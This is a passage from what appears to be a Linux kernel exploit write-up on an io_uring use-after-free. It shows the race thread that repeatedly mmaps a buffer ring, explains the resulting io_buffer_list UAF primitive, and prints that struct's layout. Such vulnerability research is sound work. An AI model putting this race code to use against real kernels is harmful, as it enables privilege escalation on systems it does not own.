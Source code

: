 The mmap thread's role is straightforward: after synchronizing with the upgrade thread, it attempts to mmap the pbuf.

``` c
void *race_mmap_thread(void *arg)
{
    // ==================== mmap thread (cpu-1) ====================
    pin_on_cpu(1);
    while (1) {
        // [...]
        pthread_barrier_wait(&barrier);
        {
            // [...]
            // Try to map the 0x69 io_buffer_list.
            ptr = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, ioring_fd, IORING_OFF_PBUF_RING + (0x69 << IORING_OFF_PBUF_SHIFT));
            if (ptr != MAP_FAILED) {
                munmap(ptr, 0x1000);
            }
        }
        pthread_barrier_wait(&barrier);
    }
}
```

## 3.2. Primitive

If the vulnerability is successfully triggered, the pbuf is freed but still accessible through a global array. This results in a UAF of the `io_buffer_list`.

The structure of `io_buffer_list` is as follows:

``` c
struct io_buffer_list {
        union {
                struct list_head   buf_list;             /*     0    16 */
                struct {
                        struct page * * buf_pages;       /*     0     8 */
                        struct io_uring_buf_ring * buf_ring; /*     8     8 */
                };                                       /*     0    16 */
                struct callback_head rcu __attribute__((__aligned__(8))); /*     0    16 */
        } __attribute__((__aligned__(8)));               /*     0    16 */
        __u16                      bgid;                 /*    16     2 */
        __u16                      buf_nr_pages;         /*    18     2 */
        __u16                      nr_entries;           /*    20     2 */
        __u16                      head;                 /*    22     2 */
        __u16                      mask;                 /*    24     2 */

        /* XXX 2 bytes hole, try to pack */

        atomic_t                   refs;                 /*    28     4 */
        __u8                       is_mapped;            /*    32     1 */
        __u8                       is_mmap;              /*    33     1 */

        /* size: 40, cachelines: 1, members: 9 */
        /* sum members: 32, holes: 1, sum holes: 2 */
        /* padding: 6 */
        /* forced alignments: 1 */
        /* last cacheline: 40 bytes */
} __attribute__((__aligned__(8)));
```
